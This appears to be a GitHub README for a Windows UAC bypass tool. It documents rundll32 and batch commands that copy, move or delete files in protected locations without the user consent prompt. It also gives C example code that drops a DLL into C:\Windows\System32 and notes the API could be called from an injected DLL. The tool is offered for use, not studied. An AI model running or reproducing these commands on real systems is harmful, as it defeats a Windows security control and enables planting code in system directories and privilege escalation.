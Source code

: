 
# UAC Bypass Tool
 
### What's different? 
 
	This tool doesn't use dll injection and can be used from the command-line or another application.

	On Success the program exits with exit-code zero, non-zero when failed.

	Note: Use quoted strings for the file names when using the tool from the command-line.
	
### Command-line Usage:

	rundll32.exe uaccpy32.dll,Copy "source" "target" [/AllowWarning]
	rundll32.exe uaccpy32.dll,Move "source" "target" [/AllowWarning]
	rundll32.exe uaccpy32.dll,Delete "target" [/AllowWarning]
	
	rundll32.exe uaccpy64.dll,Copy "source" "target" [/AllowWarning]
	rundll32.exe uaccpy64.dll,Move "source" "target" [/AllowWarning]
	rundll32.exe uaccpy64.dll,Delete "target" [/AllowWarning]
	
	uacbp.bat Copy "source" "target" [/AllowWarning]
	uacbp.bat Move "source" "target" [/AllowWarning]
	uacbp.bat Delete "target" [/AllowWarning]

   
API Usage, not the purpose of this dll, the functions are just available. 
Using from a normal application will result in user consent being asked,
could be used to call from an injected dll. 
(But that's not the purpose of this tool)

#include "uaccpyapi.h"

#pragma comment(lib, "uaccpy32.lib")
// OR #pragma comment(lib, "uaccpy64.lib")

int _tmain(int argc, _TCHAR* argv[])
{
	BOOL bInit = FALSE;
	BOOL bResult;
	
	if (NeedsUserConsent())
	{
		_tprintf(_T("There will be asked for user consent anyway when called from another application.\n"));
		//return -1;
	}

	if (!(bInit = SUCCEEDED(CoInitializeEx(NULL, COINIT_APARTMENTTHREADED | COINIT_DISABLE_OLE1DDE))))
	{
		_tprintf(_T("CoInitializeEx failed.\n"));
		return -1;
	}

	UacOperation(_T("C:\\Users\\Username\\Desktop\\source.dll"), _T("C:\\windows\\System32"), _T("target.dll"), UACOP_COPY);

	CoUninitialize();

	return 0;
}
